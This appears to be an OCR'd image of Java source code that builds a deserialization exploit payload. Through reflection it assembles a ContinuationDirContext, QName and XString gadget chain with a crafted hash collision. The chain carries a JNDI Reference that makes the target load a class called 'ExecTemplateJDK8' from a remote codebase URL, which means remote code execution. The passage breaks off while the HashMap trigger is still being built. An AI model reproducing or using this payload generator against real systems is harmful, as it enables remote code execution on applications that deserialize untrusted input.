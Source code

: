 ```java
    }

    public static String unhash ( int hash ) {
        int target = hash;
        StringBuilder answer = new StringBuilder();
        if ( target < 0 ) {
            // String with hash of Integer.MIN_VALUE, 0x80000000
            answer.append("\\u0915\\u0009\\u001e\\u000c\\u0002");

            if ( target == Integer.MIN_VALUE )
                return answer.toString();
            // Find target without sign bit set
            target = target & Integer.MAX_VALUE;
        }

        unhash0(answer, target);
        return answer.toString();
    }

    private static void unhash0 ( StringBuilder partial, int target ) {
        int div = target / 31;
        int rem = target % 31;

        if ( div <= Character.MAX_VALUE ) {
            if ( div != 0 )
                partial.append((char) div);
            partial.append((char) rem);
        }
        else {
            unhash0(partial, div);
            partial.append((char) rem);
        }
    }

    public static void main(String[] args) throws Exception {

        String remoteUrl = "http://127.0.0.1:8180/";
        String remoteClass = "ExecTemplateJDK8";
        Class<?> ccCl = Class.forName("javax.naming.spi.ContinuationDirContext");
        Constructor<?> ccCons = ccCl.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        ccCons.setAccessible(true);
        CannotProceedException cpe = new CannotProceedException();
        setFieldValue(cpe, "cause", null);
        setFieldValue(cpe, "stackTrace", null);

        cpe.setResolvedObj(new Reference("Foo", remoteClass, remoteUrl));

        setFieldValue(cpe, "suppressedExceptions", null);
        DirContext ctx = (DirContext) ccCons.newInstance(cpe, new Hashtable<>());
        QName qName = new QName(ctx, "foo", "bar");

        String unhash = unhash(qName.hashCode());
        XString xString = new XString(unhash);

        HashMap<Object, Object> hashMap = new HashMap<>();
        setFieldValue(hashMap, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
```